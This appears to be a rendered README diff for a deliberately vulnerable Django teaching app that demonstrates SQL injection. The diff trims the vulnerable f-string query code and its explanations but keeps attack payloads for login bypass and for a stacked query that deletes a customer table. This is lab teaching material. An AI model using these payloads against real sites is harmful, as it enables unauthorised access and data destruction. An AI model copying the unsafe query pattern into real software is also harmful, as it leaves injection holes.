

Before and after one commit to 100adim/computer-security-Unsecured, a Markdown page: README.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -122,7 +122,7 @@ source vulnerable_env/bin/activate  # macOS/Linux
 vulnerable_env\Scripts\activate     # Windows
 
 # Install dependencies
-pip install django
+pip install -r requirements.txt
 
 # Initialize vulnerable database
 python manage.py makemigrations mainapp
@@ -138,72 +138,34 @@ python manage.py runserver 8001
 
 ---
 
-## 💉 **SQL Injection Demonstrations**
 
 ### **🎯 Attack 1: Authentication Bypass**
 
-#### **Vulnerable Code Location:**
-```python
 # mainapp/views.py - login_view() function
-raw_query = f"""
-    SELECT username, password_hash, salt
-    FROM mainapp_user
-    WHERE username = '{username}'
-"""
-```
 
 #### **Attack Payload:**
+
 ```sql
 Username: admin' OR '1'='1' --
-Password: anything
-```
-
-#### **What Happens:**
-```sql
--- Original intended query:
-SELECT username, password_hash, salt FROM mainapp_user WHERE username = 'admin'
-
--- Malicious injected query:
-SELECT username, password_hash, salt FROM mainapp_user WHERE username = 'admin' OR '1'='1' --'
-
--- Result: '1'='1' is always true, returns all users, bypasses authentication
+Password: Anything123!
 ```
 
 ---
 
 ### **🎯 Attack 2: Database Destruction**
 
-#### **Vulnerable Code Location:**
-```python
 # mainapp/views.py - register() function
-cursor.executescript(f"""
-    INSERT INTO mainapp_user (username, email, password_hash, salt)
-    VALUES ('{username}', '{email}', '{password_hash}', '{salt_hex}');
-""")
-```
 
 #### **Attack Payload:**
+
 ```sql
-Username: test-sqli','','','');DELETE FROM mainapp_customer;--
+Username: sqli-test','','','');DELETE FROM mainapp_customer;--
 Email: test@test.com
-Password: anything123
-```
-
-#### **What Happens:**
-```sql
--- Intended query:
-INSERT INTO mainapp_user (...) VALUES ('test', 'test@test.com', 'hash', 'salt');
-
--- Malicious query:
-INSERT INTO mainapp_user (...) VALUES ('test-sqli','','','');DELETE FROM mainapp_customer;--', 'test@test.com', 'hash', 'salt');
-
--- Result: User created, then entire user table deleted!
+Password: Anything123!
 ```
 
 ---
 
 ### **🎯 Attack 3: Data Manipulation**
 
-#### **Vulnerable Code Location:**
-```python
 # mainapp/views.py - add_customer() function
````
Also changed, not shown: other parts of README.md (+10 -53 lines).
